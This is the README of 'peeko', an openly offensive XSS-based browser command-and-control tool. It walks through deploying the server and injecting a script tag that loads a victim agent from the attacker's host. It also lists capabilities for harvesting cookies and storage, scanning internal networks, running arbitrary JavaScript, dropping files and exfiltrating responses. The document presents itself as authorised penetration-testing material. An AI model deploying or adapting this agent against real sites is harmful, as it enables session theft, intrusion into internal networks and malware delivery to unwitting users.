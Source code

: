 ## peeko

**Version:** v1.0

`peeko` is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeko establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, exfiltrate data, or even execute arbitrary JavaScript — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and victims  
- Victim browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Custom JS execution (manual or automatic)  
  - File delivery (auto/manual)  
  - Browser info and token collection (cookies, storage, etc.)  
  - Log viewer with copy/save as `.txt` or `.json`  
- HTTPS support with self-signed certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeko.git
    cd peeko
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. (Optional) Make scripts executable:

    ```bash
    chmod +x gen-cert.sh start.sh
    ```

4. Generate self-signed TLS certificate:

    ```bash
    make cert
    ```

5. Replace the `SERVER-IP` placeholder:

    Open and edit the following files:

    - `static/agent.js`
    - `static/control.html`

    Replace `SERVER-IP` with the IP/domain of your server:

    ```js
    wss://SERVER-IP:8443/ws → wss://192.168.30.136:8443/ws
    ```

6. Start the server:

    ```bash
    make run
    ```

7. Open the control panel in your browser:

    ```
    https://192.168.30.136:8443/static/control.html
    ```

8. Inject the agent (example XSS):

    ```html
    <script src="https://192.168.30.136:8443/static/agent.js"></script>
    ```

---

## Control Panel Features

### Core Functions

- Select and manage connected victims  
- Fetch any internal/external HTTPS URL via the victim  
- Scan LAN ranges: `192.168.1.0/24`, `10.0.0.10-20`, etc.  
- Scan specific ports or ranges (e.g., `80`, `443,8000-8080`)  

### File Delivery

- Send files to the victim (Base64 via WebSocket)  
- Victim browser automatically downloads them  
- Supports auto-upload on connect  

### Info Gathering

- Collect User Agent, platform, referrer, cookies, local/sessionStorage  
- View results in JSON  
- Triggered manually or auto-collect on connect  

### Custom JS Execution

- Run arbitrary JavaScript on the victim browser  
- Use `exec:...` format to send  
- Supports **auto-run** on connect  
- Example: `exec:alert(document.cookie);`  

### Logging

- Everything is logged (requests, responses, info dumps)  
- Copy or export logs as `.txt` or `.json`  
- Minimalist UI designed like a terminal log  

---

## CORS & Mixed Content Explained

Modern browser policies affect what peeko can access.

### CORS Responses

| Header | Can read content? | Notes |
|--------|-------------------|-------|
| `Access-Control-Allow-Origin: *` | ✅ | Full access to response |
| No header | ⚠️ | Response is opaque |
| Restricted origin | ❌ | Blocked or unreadable |

### Mixed Content

Victim connects via HTTPS. If a scanned target only uses HTTP:

- Browser will block mixed content requests  
- peeko cannot read from `http://` endpoints  
- Always prefer targets using HTTPS when scanning

### In Practice

During a penetration test, if you find an internal service that responds with `Access-Control-Allow-Origin: *` and is served over HTTPS, then peeko becomes a stealth proxy capable of exfiltrating internal data directly from the victim's browser without dropping any files or opening outbound connections.


---

## Project Structure

```
peeko/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Attacker injects XSS (via stored or reflected vuln)  
2. Victim’s browser connects via WebSocket to peeko server  
3. Control panel lets attacker:  
   - Scan network  
   - Fetch URLs  
   - Dump cookies, storage  
   - Run arbitrary JS  
   - Exfiltrate responses
   - Drop files

---

## Use Cases

- Internal network mapping via XSS  
- Browser-based pivoting  
- Silent file delivery / JS dropper  

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeko outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

Written by **b3rito** at mes3hacklab & **GioPpeTto**
